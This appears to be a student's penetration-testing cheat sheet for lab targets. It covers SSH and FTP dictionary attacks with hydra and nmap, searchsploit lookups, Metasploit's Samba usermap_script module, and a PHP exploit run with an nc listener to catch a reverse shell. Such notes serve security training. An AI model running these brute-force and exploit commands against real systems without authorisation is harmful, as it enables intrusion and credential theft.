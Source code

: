 ### RDP

```bash
...
```

#### Dictionary Attack

```bash
hydra -l student -P rockyou.txt <ip> ssh
nmap <ip> -p 22 --script ssh-brute --script-args userdb=users.txt
```

## Vulnerability Assessment

- Nessus
- searchsploit
- exploitdb
- Metasploit

## Exploitation

### Linux

#### vsFTPd

```bash
$ ftp <ip>
anonymous
$ searchploit vsftpd
$ searchsploit -m <exploit>
# brute force
# smtp can identify user acounts very easily
> use smtp/smtp_enum
# brute force with usernames
$ hydra -l <user> -P unix_users <ip> ftp
```

#### Samba

```bash
# samba smbd port 445
> use smb_version
$ searchsploit samba 3.0.20
> use multi/samba/usermap_script
```

#### PHP

```bash
# targeting port 80 Apache httpd 2.2.8
# search for /phpinfo.php file
$ searchsploit php
$ searchsploit -m
# change pwn_code
$ nc -lvnp 1234
$ python2 18836.py <ip> 80
```
